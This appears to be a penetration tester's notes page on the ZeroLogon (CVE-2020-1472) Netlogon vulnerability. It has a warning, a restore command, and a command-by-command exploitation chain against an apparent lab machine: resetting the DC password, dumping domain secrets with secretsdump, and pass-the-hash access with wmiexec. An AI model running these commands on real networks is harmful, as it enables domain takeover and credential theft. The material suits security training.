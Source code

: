 ```yaml
---
description: 10-1-2022
---
```


# ZeroLogon Exploit

## CVE-2020-1472 (A.K.A. ZeroLogon)

### "Instantly become Domain Admin by subverting Netlogon Cryptography"

This exploit stems from a <mark style="color:yellow;">vulnerability</mark> in the <mark style="color:yellow;">Netlogon Remote Protocol</mark>

* This exploit stems from <mark style="color:yellow;">cryptographic authentication flaws</mark>
* This is a pretty nasty vulnerability
* This will allow an attacker to impersonate any computer (such as the domain controller)
* You will be able to delete the hash/password from the user and authenticate without a password
* The attacker must have a foothold within your network and a connection to the Domain Controller must be possible

## Warning <mark style="color:yellow;">Please</mark> Read

* This attack will absolutely destroy the Domain Controller
* It is paramount that you understand how to restore the DC after you run this attack or if you choose to not run this attack at all on a real client
* If you are using this in a real environment, consider running the test tool against the DC and immediately notifying the client that they need to patch this!
* There is a <mark style="color:yellow;">restorepassword</mark>.py file to do this!

<mark style="color:yellow;">Restore</mark>:

```
python3 restorepassword.py megabank.local/Resolute@Resolute -target-ip 10.129.60.74 -hexpass
```

* <mark style="color:yellow;">Note: You obtain the password hex from dumping LSA Secrets (Secretsdump)</mark>

## Technical Details

How does it work exactly?

* The attacker must forge an authentication token for specific Netlogon functionality
* Call a function to establish the computer password of the Domain Controller to a known value
* Once this is done, the attacker can use this new password to take control over the DC and steal credentials of a Domain Admin
* Once achieved, the attacker can execute RPC's to all workstations across the Domain

{% embed url="https://github.com/risksense/zerologon" %}
PoC
{% endembed %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}
PoC
{% endembed %}

{% embed url="https://github.com/SecuraBV/CVE-2020-1472" %}
Tester
{% endembed %}

## Exploitation

Step 1: Clone the repo and obtain CVE PoC

Step 2: Run the PoC

```
python3 set_empty_pw.py Resolute 10.129.60.74
```

Step 3: Dump the domain with impacket-secretsdump

```
impacket-secretsdump -just-dc megabank.local/Resolute\$@10.129.60.74
```

Step 4: Copy the Administrator's hash and use wmiexec to Access the DC

```
impacket-wmiexec megabank.local/Administrator@10.129.60.74 -hashes aad3b435b51404eeaad3b435b51404ee:fb3b106896cdaa8a08072775fbd9afe9
```
